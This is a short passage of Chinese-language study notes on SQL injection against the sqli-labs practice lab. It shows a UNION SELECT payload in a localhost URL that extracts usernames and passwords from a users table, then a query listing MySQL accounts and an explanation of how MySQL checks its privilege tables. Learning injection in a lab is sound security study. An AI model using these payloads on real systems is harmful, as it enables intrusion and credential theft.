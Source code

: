    - ![](图片/Pasted%20image%2020241018170114.png)
    - http://127.0.0.1/sqli-labs/Less-2/index.php?id=-1%20union%20select%201,2,(select%20group_concat(username,0x3a,password)from%20users)
    - union select 1,2,(select group_concat(username,0x3a,password)from users)
    - ![](图片/Pasted%20image%2020241018175747.png)
# 高权限注入
- 查询mysql的用户数
```
select user,host from mysql.user

mysql权限表的验证过程为：

	先从user表中的Host,User,Password这3个字段中判断连接的ip、用户名、密码是否存在，存在则通过验证。

	通过身份认证后，进行权限分配，
	按照user，db，tables_priv，columns_priv的顺序进行验证。
	即先检查全局权限表user，如果user中对应的权限为Y，则此用户对所有数据库的权限都为Y，
	将不再检查db, tables_priv,columns_priv；如果为N，则到db表中检查此用户对应的具体数据库，
	并得到db中为Y的权限；如果db中为N，则检查tables_priv中此数据库对应的具体表，取得表中的权限Y，以此类推。
 
```